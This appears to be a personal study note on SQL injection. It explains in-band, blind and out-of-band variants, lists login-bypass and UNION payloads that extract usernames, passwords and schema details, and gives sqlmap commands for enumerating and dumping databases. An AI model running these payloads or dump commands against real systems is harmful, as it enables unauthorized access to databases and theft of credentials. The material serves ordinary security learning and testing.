 # SQL Injection (SQLi)

SQL Injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It can lead to unauthorized access to sensitive data, such as passwords, credit card details, or personal user information.

## Types of SQL Injection

### In-band SQLi (Classic SQLi)

The attacker uses the same communication channel to launch the attack and gather results.
*   **Error-based SQLi:** The attacker crafts input that causes the database to produce error messages, revealing information about its structure.
*   **Union-based SQLi:** The attacker uses the `UNION` operator to combine the results of a legitimate query with a query of their own.

### Inferential SQLi (Blind SQLi)

The web application does not return the results of the malicious query directly. The attacker must infer the results by observing the application's behavior.
*   **Boolean-based SQLi:** The attacker sends a query that results in a true or false condition, which is reflected in the application's response (e.g., a different page is loaded).
*   **Time-based SQLi:** The attacker sends a query that instructs the database to wait for a specific amount of time. The response delay indicates whether the query was successful.

### Out-of-band SQLi

The attacker uses a different communication channel to exfiltrate data, such as making the server issue a DNS or HTTP request to a server the attacker controls.

## Common Payloads and Concepts

### Basic Injection
The most basic form of SQLi is to break out of a string literal and inject a condition that is always true.
*   `' or 1=1--`
*   `' or '1'='1`

### Union-based Injection
This is used to retrieve data from other tables.
*   `' UNION SELECT username, password FROM users--`

### Discovering Database Structure
In many database systems, you can query a data dictionary or information schema to get information about the database structure.
*   **Tables:** `' UNION SELECT table_name, null FROM information_schema.tables--`
*   **Columns:** `' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'--`

## SQLMap

SQLMap is an open-source tool that automates the process of detecting and exploiting SQL injection flaws. It is a powerful tool for penetration testers.

### Basic Usage
`sqlmap -u "http://vulnerable-website.com/product.php?id=1"`

### Common Options
*   `--dbs`: Enumerate databases.
*   `--tables -D <database>`: Enumerate tables in a database.
*   `--columns -T <table> -D <database>`: Enumerate columns in a table.
*   `--dump -C <columns> -T <table> -D <database>`: Dump data from a table.
*   `--batch`: Use default answers for all questions.
*   `--level=5 --risk=3`: Increase the number of checks performed.

## Cheatsheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

URL encoding:
https://www.w3schools.com/tags/ref_urlencode.ASP

```sql
test' or 1=1--
```

```sql
1' and '1'='1'--
```

```sql
1' OR '1'='1'#
```

```sql
'UNION SELECT table_name, NULL FROM information_schema.tables #
```

```sql
'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users' #
```

```sql
'UNION SELECT user, password FROM users #
```

```sql
1 UNION SELECT user, password FROM users --
```

```sql
1%20+UNION+SELECT+user,password+FROM+users%23
```

```sql
'UNION SELECT user, password FROM users #
```

```sql
tester@localhost.com' --
```

```sql
admin' or 1=1 --
```
